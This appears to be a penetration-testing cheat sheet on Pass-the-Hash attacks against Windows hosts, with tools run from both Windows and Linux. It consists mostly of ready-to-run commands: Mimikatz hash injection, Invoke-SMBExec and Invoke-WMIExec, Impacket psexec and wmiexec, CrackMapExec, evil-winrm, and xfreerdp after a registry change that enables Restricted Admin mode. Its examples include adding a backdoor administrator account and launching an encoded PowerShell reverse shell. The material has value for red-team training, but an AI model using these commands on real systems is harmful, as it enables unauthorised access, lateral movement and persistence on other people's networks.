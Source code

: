 ```yaml
---
hidden: true
---
```


# Pass-The-Hash(FOR LIN\&WIN)

## Pass The Hash

A **Pass the Hash (PTH)** attack involves an attacker using a password hash in place of the actual password for authentication. This method allows the attacker to bypass the need to decrypt the hash to retrieve the password. **PTH** attacks take advantage of the fact that the authentication protocol accepts the hash directly, as it remains unchanged for all sessions until the password is altered.

***

### Windows PTH

#### Mimikatz

```powershell
mimikatz.exe privilege::debug "sekurlsa::pth /user:carni7 /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:{DOMAIN} /run:cmd.exe" exit
```

Explanation:

* <mark style="color:blue;">**`privilege::debug`**</mark> - equivalent of admin rights
* <mark style="color:blue;">**`/user:carni7`**</mark> - user we want to impersonate
* <mark style="color:blue;">**`/rc4`**</mark> or <mark style="color:blue;">**`/NTLM`**</mark> - user's password hash. rc4 is algorithm
* <mark style="color:blue;">**`/domain`**</mark> - The domain to which the user being impersonated belongs. For a local user account, you can use the computer name, localhost, or simply a dot (.)
* <mark style="color:blue;">**`sekurlsa::pth`**</mark> - mimikatz popular module, which is used for extracting credentials from LSASS.
* <mark style="color:blue;">**`/run:cmd.exe`**</mark> - Instructions to mimikatz to run cmd after injecting hash

#### Invoke-TheHash

Besides mimikatz we could use [**Invoke-TheHash**](https://github.com/Kevin-Robertson/Invoke-TheHash) for **PTH** on Windows. This tool uses **PowerShell** functions for performing **Pass the Hash** attacks with **WMI** and **SMB**. Authentication is performed by passing an **NTLM** hash into the NTLMv2 authentication protocol.

```powershell
Import-Module .\Invoke-TheHash.psd1
```

* **SMB**

```powershell
Invoke-SMBExec -Target 13.13.13.13 -Domain somedomain.sus -Username carni7 -Hash 12379N1D2YV31U20931C031 -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose
```

* **WMI**

```powershell
Invoke-WMIExec -Target DC01 -Domain {DOMAIN} -Username carni7 -Hash 12379N1D2YV31U20931C031 -Command "powershell -e JUSTLETSIMAGINETHISISBASE64ENCODEDPOWERSHELLREVERSESHELLCODE=="
```

***

### Linux PTH&#x20;

#### Impacket

Impacket has a lot of useful tools, but for this situtation we need only <mark style="color:blue;">**`PsExec`**</mark>. Besides that we could use also [**wmiexec**](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py), [**atexec**](https://github.com/SecureAuthCorp/impacket/blob/master/examples/atexec.py), [**smbexec**](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py)**.**&#x20;

```bash
impacket-psexec administrator@13.13.13.13 -hashes :12379N1D2YV31U20931C031
impacket-wmiexec administrator@13.13.13.13 -hashes :12379N1D2YV31U20931C031
```

#### CrackMapExec

```bash
crackmapexec smb 13.13.13.13 -u Administrator -d . -H 12379N1D2YV31U20931C031 -x whoami
```

#### Evil-winrm&#x20;

```bash
evil-winrm -i 13.13.13.13 -u Administrator -H 12379N1D2YV31U20931C031
```

#### RDP

By default, Windows has disabled <mark style="color:green;">**`Restricted Admin Mode`**</mark>, and we need to fix that by adding new registry key to <mark style="color:green;">**`DisableRestrictedAdmin`**</mark>

```powershell
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

And then to use <mark style="color:green;">**xfreerdp**</mark> for Pass The Hash

```powershell
xfreerdp /v:13.13.13.13 /u:carni7 /pth:12379N1D2YV31U20931C031
```
